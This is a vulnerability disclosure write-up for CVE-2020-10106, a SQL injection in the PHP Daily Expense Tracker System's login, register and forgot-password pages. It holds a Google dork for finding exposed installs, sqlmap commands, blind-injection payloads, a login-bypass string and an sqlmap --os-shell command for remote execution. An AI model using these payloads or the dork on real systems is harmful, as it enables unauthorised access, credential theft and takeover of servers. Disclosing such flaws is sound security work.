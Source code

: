 ```yaml
---
title: CVE-2020-10106
author: frosty
date: 2020-03-04 12:00:00 +0000
categories: [cve]
tags: [cve]     # TAG names should always be lowercase
---
```


Daily Expense Tracker System (DETS) is vulnerable to SQL injection. This post will be a brief write up about discovery and exploitation of CVE-2020-10106. These vulnerabilities exist in the Daily Expense Tracker System project version 1, which you can download from PHPGurukul, [here](https://phpgurukul.com/daily-expense-tracker-using-php-and-mysql/).

According to PHPGurukul's website, this application has been downloaded 499 times - at time of vulnerability discovery. Using Google Dorks method of `intitle:"Daily Expense Tracker - Login"` there are some sites which could be vulnerable - unknown without confirmation.

* * *

## Discovering the Vulnerability

I installed the DETS application using Bitnami XAMPP for Linux (aka LAMPP). The user lands on a login page within index.php. After static code analysis, it appeared that the SQL query could be vulnerable. More specifically, the email parameter. I believe that the password parameter is not vulnerable to SQL injection is because user input is hashed on the client side. This means that SQL injction payloads will be hashed and therefore cannot be interpreted by the SQL engine as special characters. The same cannot be said about the email parameter, which directly takes user input in the SQL query.

![Image](assets/img/cve/2020-10106/image-1024x442.png)

* * *

## Verifying the Vulnerability

I captured a login request with Burpsuite and exported it to a file, which allows further investigation using sqlmap.

![Image](assets/img/cve/2020-10106/image-1.png)

![Image](assets/img/cve/2020-10106/image-2-1024x562.png)

I appreciate that the sqlmap output could be squashed a lot in this instance. Here is the key information:

```sh
$ sqlmap -r <login-request-file> --dbms=mysql

sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:

---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    payload: email=oliver@frostylabs.net' AND (SELECT 7366 FROM (SELECT(SLEEP(5)))NgAy) AND 'KQtM'='KQtM&password=p4ssw0rd&login=login
---
```

The application is vulnerable to unauthenticated time-based SQL injection. Using sqlmap's `--dump` flag, it is possible to dump the users table, and the associated account hash.

![Image](assets/img/cve/2020-10106/image-3.png)

![Image](assets/img/cve/2020-10106/image-4-1024x146.png)

When using valid credentials in the sqlmap query, it is possible to perform a boolean based SQL injection.

```sh
---
parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: email=test@gmail.com' AND 7009=7009 AND 'wGtm'='wGtm&password=123&login=login
---
```

* * *

## Further Exploitation

In addition to `index.php`, the same vulnerabilities as described above exist in `register.php` and `forgot-password.php`.

In addition to the Blind SQL injection, using the following payload allows for a complete bypass of the login prompt. However, the login prompt requires that an email is input, otherwise the user is not permitted to submit the form. This is overcame by intercepting the POST request, and altering the query. The HTTP 302 response as seen in the image below proves that the SQL injection has been successful.

```sql
a' OR '1'='1'; -- -
```

![Image](assets/img/cve/2020-10106/image-12-1024x249.png)

* * *

### Bonus

It is possible to leverage the SQL injection vulnerability to get remote command execution. However, the RCE vulnerability depends on SQLi therefore in my opinion the web application is not directly vulnerable to RCE, but rather RCE through SQLi. SQLMap is able to obtain this with the `--os-shell` flag.

```sh
sqlmap -r <login-request-file> --dbms=mysql --os-shell
```

![Image](assets/img/cve/2020-10106/image-5-1024x673.png)
